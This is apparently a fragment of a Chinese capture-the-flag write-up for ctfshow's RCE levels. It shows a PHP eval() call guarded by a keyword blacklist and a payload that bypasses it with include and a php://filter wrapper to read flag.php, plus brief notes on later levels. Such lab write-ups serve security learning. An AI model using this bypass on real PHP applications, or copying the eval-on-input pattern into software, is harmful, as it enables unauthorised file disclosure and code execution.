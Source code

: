 ```PHP
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    } 
```

这次双引号也被ban

payload

```
?c=include%09$_GET[x]?>&x=php://filter/read=convert.base64-encode/resource=flag.php
```

## 34

多过滤了一个:

## 35

多过滤了一个< ,同33

## 36

多过滤一个 数字

## 37

使用伪协议读取文件

![image-20210126155427388](ctfshow-rce/image-20210126155427388.png)
